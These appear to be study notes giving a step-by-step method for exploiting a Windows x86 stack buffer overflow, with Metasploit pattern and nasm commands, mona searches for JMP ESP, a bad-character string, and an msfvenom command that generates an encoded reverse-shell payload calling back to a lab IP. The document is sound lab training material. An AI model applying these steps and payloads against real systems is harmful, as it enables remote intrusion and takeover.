 # Step 1: Fuzz the program

Probably using a python script. Fuzz the input to see what size buffer overflow you need to pass in order to crash the program. 

# Step 2: Find the offset

Use pattern_create 

/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <length of buffer>

Pass the output to the program

Take the value in the EIP and use it with pattern_offset.rb

/usr/share/metasploit-framework/tools/exploit./pattern_offset.rb -l <length of buffer> -q <EIP value> 

# Step 3: Confirm you can control the buffer

Use the offset value to confirm you can control the buffer

Send "A" * <offset> + "B" * 4 + "C" * <length of buffer - 4 - offset> to the program 

Make sure that BBBB (42424242) is written to the EIP


# Step 4: Check for Bad characters

badchars = ( "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10" "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20" "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30" "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40" "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50" "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60" "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70" "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80" "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90" "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0" "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0" "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0" "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0" "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0" "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0" "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )


Look at the buffer and see if there are any characters that cause the buffer to be truncated or are skipped over. (we can also assume that \x00 is a bad character always) 

# Step 5: Find space for your shellcode:

We assume the general size for a payload is about 351 bytes. 

So we need to see where we can put this. To do this, we can try to just increase the amount of "C"'s that we are passing to the program. 


## Step 5b:

If we do not have this option, another thing we could do was look to see if a register is pointing to another point in the code we passed it. 

For example, the crossfire buffer overflow had the EAX pointing to the beginning of the string we passed it. It was "setup sound:AAAAAA.." But we had some space after the EIP to play with. There were 5 bytes of "C" in the stack that the ESP was pointing to. 

So, we needed to use 

/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb 

to do: 

Add eax, 12 (this is to bypass the setup sound string at the beginning of the EAX space)

\x83\xc0\x0c

Jmp eax (to jump to where the eax is) 

\xff\xe0



# Step 6: Redirect execution flow

Need to find a JMP ESP command in a module that is: 

	1. No memory protections such as DEP and ASLR
	2. Has a memory range that does not contain bad characters

We can find this by using the mona.py script in immunity debugger. 

Do this by typing in the command: 

!mona modules

Look for a module with: 
	1. Rebase = False
	2. SafeSEH = False
	3. ASLR = False
	4. NXCompat = False

Once this is identified, we need to find a JMP ESP command in this module

To do this, we use the mona.py script again: 

!mona find -s "\xff\xe4" -m <modules> (slmfc.dll for example) 

Pick a pointer without any bad characters. 

# Step 7: Control the EIP

Put the JMP ESP command where the B's were. 

Remember, since windows x86 architecture stores things in little endian. So we have to put the address in backwards. 

For example, 0x5f4a358f would be written as this in the script:

"\x8f\x35\x4a\x5f"

# Step 8: Generate payload

Using msfvenom we need to generate a reverse shell that avoids bad chars


msfvenom -p windows/shell_reverse_tcp  EXITFUNC=thread -f python LHOST=10.11.0.41 LPORT=443 -e x86/shikata_ga_nai -b "\x00\x0a\x0d"


# Step 9: Add shellcode to exploit

Important thing here is that we need a NOP sled before the exploit. 

We do this by adding "\x90" * 8 before the shellcode. 

So it would be: "A" * offset  + "JMP ESP to point to" + "/x90" * 8 + shellcode

# Step 10: Execute and get shell

Simple as 1 2 3... 10
